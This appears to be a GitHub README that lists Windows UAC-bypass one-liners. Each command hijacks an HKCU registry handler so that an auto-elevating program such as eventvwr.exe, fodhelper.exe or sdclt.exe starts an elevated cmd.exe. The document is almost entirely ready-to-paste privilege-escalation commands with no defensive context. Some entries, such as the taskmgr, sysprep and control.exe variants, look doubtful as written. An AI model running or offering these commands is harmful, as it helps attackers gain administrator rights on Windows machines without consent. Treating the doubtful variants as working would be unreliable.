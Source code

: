 # uac-bypass-oneliners

Techniques
<br>
Using eventvwr.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && eventvwr.exe
```
<br>
Using fodhelper.exe: <br> <br>

```

reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

```


Using computerdefaults.exe:<br> <br>

```

reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
Using sdclt.exe:<br> <br>

```

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe /ve /t REG_SZ /d "cmd.exe" /f && start sdclt.exe
```
<br>
Using slui.exe:<br> <br>

```

reg add HKCU\Software\Classes\exefile\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\exefile\shell\open\command /v DelegateExecute /f && start slui.exe
```

<br>
Using perfmon.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && start perfmon.exe
```

Using taskmgr.exe: <br><br>


```
reg add HKCU\Software\Classes\taskmgr\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && start taskmgr.exe
```

Using ComputerDefaults.exe: <br><br>
```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && start computerdefaults.exe
```

Using sysprep.exe:

```

reg add HKCU\Software\Classes\AppID\{921C1A8B-9F15-4DA4-9235-0472C3A216E6} /f /ve /t REG_SZ /d "cmd.exe" && start C:\Windows\System32\sysprep\sysprep.exe
```

Using control.exe with /computername:

```

cmd /c reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /ve /d "cmd.exe" /f && control.exe /computername

```

